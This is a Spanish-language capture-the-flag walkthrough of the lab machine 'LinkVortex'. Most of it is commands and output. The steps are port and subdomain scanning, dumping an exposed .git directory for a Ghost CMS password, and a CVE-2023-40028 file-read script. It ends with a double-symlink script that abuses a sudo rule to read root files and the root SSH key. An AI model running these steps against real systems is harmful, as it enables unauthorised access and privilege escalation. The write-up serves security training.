


LinkVortex es una máquina Linux de fácil dificultad con varias formas de aprovechar los archivos de enlaces simbólicos (symlinks). El punto de apoyo inicial consiste en descubrir un directorio `.git` expuesto que puede ser volcado para recuperar credenciales. Estas credenciales permiten acceder al sistema de gestión de contenidos Ghost vulnerable a [CVE-2023-40028](https://nvd.nist.gov/vuln/detail/CVE-2023-40028). Esta vulnerabilidad permite a los usuarios autenticados cargar enlaces simbólicos, permitiendo la lectura arbitraria de archivos dentro del contenedor de Ghost. Las credenciales expuestas en el archivo de configuración de Ghost pueden ser aprovechadas para obtener un shell como usuario en el sistema anfitrión. Por último, el usuario puede ejecutar un script con permisos sudo que son vulnerables a un ataque de condición de carrera symlink (TOCTOU). Esto presenta una oportunidad para escalar privilegios mediante la creación de enlaces a archivos sensibles en el sistema y, en última instancia, obtener acceso root.


# Reconocimiento

Iniciamos con el reconocimiento de puertos abiertos de la maquina victima

```c
❯ nmap -p- --open --min-rate 5000 -Pn -n -vvv 10.10.11.47 -oG allportsScan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-04 11:08 -05
Initiating SYN Stealth Scan at 11:08
Scanning 10.10.11.47 [65535 ports]
Discovered open port 22/tcp on 10.10.11.47
Discovered open port 80/tcp on 10.10.11.47
Completed SYN Stealth Scan at 11:08, 14.85s elapsed (65535 total ports)
Nmap scan report for 10.10.11.47
Host is up, received user-set (0.12s latency).
Scanned at 2025-09-04 11:08:00 -05 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Luego de tener los puertos abiertos procederemos a enumerar los servicios que corren en dichos puertos

```c
❯ nmap -p22,80 -sC -sV -Pn -n 10.10.11.47 -oN servicesScan -vvv

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMHm4UQPajtDjitK8Adg02NRYua67JghmS5m3E+yMq2gwZZJQ/3sIDezw2DVl9trh0gUedrzkqAAG1IMi17G/HA=
|   256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKKLjX3ghPjmmBL2iV1RCQV9QELEU+NF06nbXTqqj4dz
80/tcp open  http    syn-ack ttl 63 Apache httpd
|_http-title: Did not follow redirect to http://linkvortex.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Observamos que en el servicio web tenemos un dominio, por lo que lo agregaremos a `/etc/hosts`. Luego de agregarlo observamos el siguiente sitio web.


Enumerando los subdominios del sitio web, encontraremos que existe uno `dev` 

```c
❯ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fs 230 -H "Host: FUZZ.linkvortex.htb" -u http://linkvortex.htb/

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://linkvortex.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.linkvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 230
________________________________________________

dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 110ms]
:: Progress: [19966/19966] :: Job [1/1] :: 277 req/sec :: Duration: [0:01:01] :: Errors: 0 ::
  
```

Agregando al nuestro `/etc/hosts` y revisando desde nuestro navegador encontraremos con el servicio de gitea.



## sub dominio - dev

Luego procederemos a enumerar directorios y archivos en el subdominio

```c
❯ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -replay-proxy http://127.0.0.1:8080 -u http://dev.linkvortex.htb/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://dev.linkvortex.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: ReplayProxy      : http://127.0.0.1:8080
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 109ms]
.hta                    [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 109ms]
.htpasswd               [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 108ms]
.git/config             [Status: 200, Size: 201, Words: 14, Lines: 9, Duration: 215ms]
.git/logs/              [Status: 200, Size: 868, Words: 59, Lines: 16, Duration: 113ms]
.git/HEAD               [Status: 200, Size: 41, Words: 1, Lines: 2, Duration: 113ms]
.git                    [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 112ms]
.git/index              [Status: 200, Size: 707577, Words: 2171, Lines: 2172, Duration: 210ms]
cgi-bin/                [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 110ms]
index.html              [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 110ms]
server-status           [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 109ms]
:: Progress: [4746/4746] :: Job [1/1] :: 280 req/sec :: Duration: [0:00:14] :: Errors: 0 ::                                                                    
```

Observamos que existe un directorio `.git`. Para obtener  los archivos y detalles del repositorio de git, usaremos git-dumper. 


Ahora, para ver los cambios que se realizo ejecutaremos

```c
❯ git diff --cached
```

Observamos que se modifico parte de un archivo en la que se cambia credenciales.


```c
...
+++ b/ghost/core/test/regression/api/admin/authentication.test.js
@@ -53,7 +53,7 @@ describe('Authentication API', function () {
 
         it('complete setup', async function () {
             const email = 'test@example.com';
-            const password = 'thisissupersafe';
+            const password = 'OctopiFociPilfer45';
 
             const requestMock = nock('https://api.github.com')
                 .get('/repos/tryghost/dawn/zipball')
...

```

Haciendo uso de las credenciales y el usuario `admin@linkvortex.htb` podemos iniciar sesión el cms


# Shell - bob

## CVE-2023-40028

Recordemos que estamos ante un cms 


Al investigar un poco sobre la versión del cms encontré que este tiene una vulnerabilidad, el que permite leer archivos del sistema. Para esta vulnerabilidad necesitamos credenciales, las cuales ya tenemos.

```c
admin@linkvortex.htb : OctopiFociPilfer45
```

https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028

```c
❯ bash CVE-2023-40028.sh -h 'http://linkvortex.htb' -u 'admin@linkvortex.htb' -p 'OctopiFociPilfer45'
```

Ejecutante, podemos observar que leemos exitosamente le archivo `/etc/passwd` del servidor


Enumerando encontraremos un archivo `/var/lib/ghost/config.production.json`, el que pudimos ver que fue modificado anteriormente.


```c
Enter the file path to read (or type 'exit' to quit): /var/lib/ghost/config.production.json
File content:
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
```


En este encontraremos unas credenciales para bob y las cuales nos permitirán iniciar sesión por el servicio ssh.

```c
bob: fibber-talented-worth
```


Enumerando los privilegios del usuario encontramos que el usuario en cuestión tiene permisos para ejecutar  

```c
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
bob@linkvortex:~$ 
```

# Shell - root

el usuario `bob` puede ejecutar `/opt/ghost/clean_symlink.sh`, el cual tiene el siguiente codigo:



```c
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

Entendamos un poco de lo que hace el script.

Si `CHECK_CONTENT` es `true` se ejecuta  `/usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null`, pero antes valida si este existe al ejecutarse, por lo que al inicio ejecutaremos: 
`CHECK_CONTENT=true .....` 

```c
if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi
```

En esta parte del código, valida que este tenga la extensión `.png` y si este no lo tiene termina el programa.

```c
if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi
```

Luego el script hace una validación, en las cuales  se obtiene el nombre del archivo `LINK_NAME` y obtiene el link o a donde apunta `LINK_TARGET`  

```c
if /usr/bin/test -L $LINK;then
  echo "test $LINK"
  LINK_NAME=$(/usr/bin/basename $LINK) 
  LINK_TARGET=$(/usr/bin/readlink $LINK)
```

Luego hace una validación, en este se valida que el link simbólico no apunte a los directorio `etc` y `root`

```c
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

Para poder bypasear los filtros y las validaciones, lo que haremos será un doble link simbólico. 

Entendamos bien como explotarlo. Primero nos creamos un archivo `test_passwd`

```c
❯ echo "hello :)" > test_passwd
```

Luego creamos un link simbólico al archivo:

```c
❯ ln -sf test_passwd b
```

y para `b` también:

```c
❯ ln -sf b a.png
```

Por lo que si hacemos cat a `a.png` podremos leer el archivo `test_passwd`


Esto nos permitirá bypasear la validación del directorio `root` y `etc`, porque al ejecutar un `/usr/bin/readlink` nos devolverá `b`


Para automatizar nos crearemos un archivo en la que aplicaremos todo lo anterior:

```c
#!/usr/bin/bash
file_read="$1"

b="/home/bob/b"
a="/home/bob/a.png"

ln -sf $file_read $b
ln -sf $b $a

echo "$(CHECK_CONTENT=true sudo bash /opt/ghost/clean_symlink.sh /home/bob/a.png)"
```

Ahora, dando permisos de ejecución `chmod +x read_file.sh` podemos leer archivos con permisos `root`


Luego de de leer el archivo `id_rsa` podemos iniciar sesión como root 


